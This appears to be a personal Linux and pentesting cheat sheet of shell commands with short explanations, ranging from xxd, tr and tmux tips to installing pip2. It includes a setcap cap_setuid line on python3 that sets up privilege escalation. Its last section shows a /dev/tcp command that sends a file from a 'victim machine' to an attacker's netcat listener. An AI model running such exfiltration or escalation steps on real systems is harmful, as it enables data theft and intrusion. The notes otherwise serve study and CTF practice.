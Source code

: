 `grep -oP` --> 
`pwdx` --> You can se where the process it executed, **pwdx 12345**
`sudo python3 -m http.server 80` --> Create a web server in port 80 (http)
`awk '{print $2}'` --> Only print the second argument
`xxd -ps -r` --> Transform the hexadecimal code in human legible
`sort -u` --> To show unique string
`exec` --> Execute commands in the same process and don't create a new sub-process to execute the command.
The process of bash depend of the command, if you put this in your terminal, this close at 10 seconds
````bash
exec sleep 10
````
In a bash file the process of the executing file is the same but they are executing the next command to exec.

### Capabilities
`getcap -r / 2>/dev/null` --> To see the files or programs with capabilities
`sudo setcap cap_setuid+ep /usr/bin/python3.9` --> Active the capability to control that permit change the UID
`sudo setcap -r /usr/bin/python.3.9` --> To remove the capability
http://www.etl.it.uc3m.es/Linux_Capabilities

### Reduce size of go files

`du -hc gobuster` --> To see the size of the file
`go build -ldflags "-s -w" .` --> This reduce the size
`upx gobuster` --> It is a utility that reduce the size of the file


`sudo -l` --> You can see the command that can execute the user, **if the user can use this command means that this user have the privilege of sudo **

`lsof -i:80` --> To see if some service is using this port | -i (internet)

``svn checkout https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246`` --> (Subversion) To download a subrepo or a folder. Is important to **replace the tree/master with trunk**

``pushd`` --> It's like cd but remember the route where you were in the command **popd**

``popd`` --> When you put this command if you use pushd previously this go to the route saved. (cd to the back route)


`tput civis` --> To hide the cursor
`tput cnorm` --> To seet he cursor

`tty` --> To see if the terminal is a [tty](https://www.geeksforgeeks.org/tty-command-in-linux-with-examples/)

`echo -n 'hola' | md5sum` --> Convert the String in md5 format

`echo "set -g mouse on" >> ~/.tmux.conf` --> allow you to use the scroll of the mouse

`tee` --> is used to create files with the content of first command, e.x :**ls | tee files.txt**

`tee -a` --> With -a don't delete the data that is in the file indicated

`sponge` --> avoid the problems with the redirection, example:
this generate problems `command1 | command2 > archivo.txt` or sometimes when use tee but you can use sponge `command1 | sponge archivo.txt`. 


`dirname` --> Obtain the directory indicate a file

`uniq` --> Don't show the repeat words

`cat data.txt | tr '[G-ZA-Fg-za-f]' '[T-ZA-St-za-s]'` --> To rotate the characters with tr (remember you can use the website rot13.com)

Or you can do this:
`cat data.txt | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'` --> The character number 13 in the alphabet is the N

`xxd` --> See the data of files in hexadecimal

`xxd -ps` --> **Plain, Simple** If you only want to see the hexadecimal numbers 

``xxd -r`` --> **Reverse** To transform in clear text

`ghex` --> Graphical hex editor where you can manipulate binary data in hexadecimal format

### Compress files, zip, gz...

`gunzip` --> To unzip gz zips

`7z l file.gz ` --> To list the files that are inside the compressed file 

`7z x file.gz` --> Extract the content **independently the compressed type**

----

## Install pip2

````bash
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
pip2 --version
````

----


`xclip -sel clip` --> You can use this to copy the output of a file, e.x --> **cat data | xclip -sel clip**

or you can use this:

`cat archivo.txt | xclip -selection clipboard`


See a file in other computer
````bash
# Victim machine
cat < index.php > /dev/tcp/172.21.7.214/443

# Attacker machine
sudo nc -nlvp 443 | cat -l php
````